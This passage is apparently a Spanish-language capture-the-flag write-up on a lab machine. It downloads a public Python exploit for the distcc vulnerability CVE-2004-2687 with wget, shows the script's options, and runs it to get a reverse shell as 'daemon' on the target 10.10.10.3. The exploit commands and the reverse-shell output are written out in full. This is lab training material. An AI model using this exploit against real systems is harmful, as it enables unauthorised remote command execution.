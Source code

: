 Vemos que existe un módulo de metasploit, por lo que ahora trataremos de buscar algun recurso en público:

[**CVE-2004-2687.py**](https://github.com/k4miyo/CVE-2004-2687)

Nos descargamos el archivo [[CVE-2004-2687]] a nuestra máquina, lo analizamos para ver si es necesario cambiar datos (para este caso no aplica) y procedemos a ejecutar programa.

```bash
❯ wget https://raw.githubusercontent.com/k4miyo/CVE-2004-2687/k4miyo/CVE-2004-2687.py
--2021-08-27 20:49:39--  https://raw.githubusercontent.com/k4miyo/CVE-2004-2687/k4miyo/CVE-2004-2687.py
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 4052 (4.0K) [text/plain]
Grabando a: «CVE-2004-2687.py»

CVE-2004-2687.py                 100%[=========================================================>]   3.96K  --.-KB/s    en 0s      

2021-08-27 20:49:40 (18.7 MB/s) - «CVE-2004-2687.py» guardado [4052/4052]
```

Al ejecutar el programa de python, nos solicita que ingresemos valores :

```bash
❯ python CVE-2004-2687.py -h
usage: CVE-2004-2687.py [-h] --rhost RHOST [--rport RPORT] --lhost LHOST [--lport LPORT]

DistCC Daemon Command Execution

optional arguments:
  -h, --help     show this help message and exit
  --rhost RHOST  Remote host ip (Victim)
  --rport RPORT  Remote port (default: 3632)
  --lhost LHOST  Local host ip (Attacker)
  --lport LPORT  Local port (default: 443)
```

Ejecutamos el exploit con los parámetros indicados y obtenemos una sesión interactiva dentro de la máquina víctima:

```bash
❯ python CVE-2004-2687.py --rhost 10.10.10.3 --lhost 10.10.14.15
[+] Payload: Payload generated!
[+] Execution: DistCC Daemon exploited with success!
[+] Opening connection to 10.10.10.3 on port 3632: Done
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.10.3 on port 55087
[+] Connection: Established connection
[*] Switching to interactive mode
$ whoami
daemon
$  
```
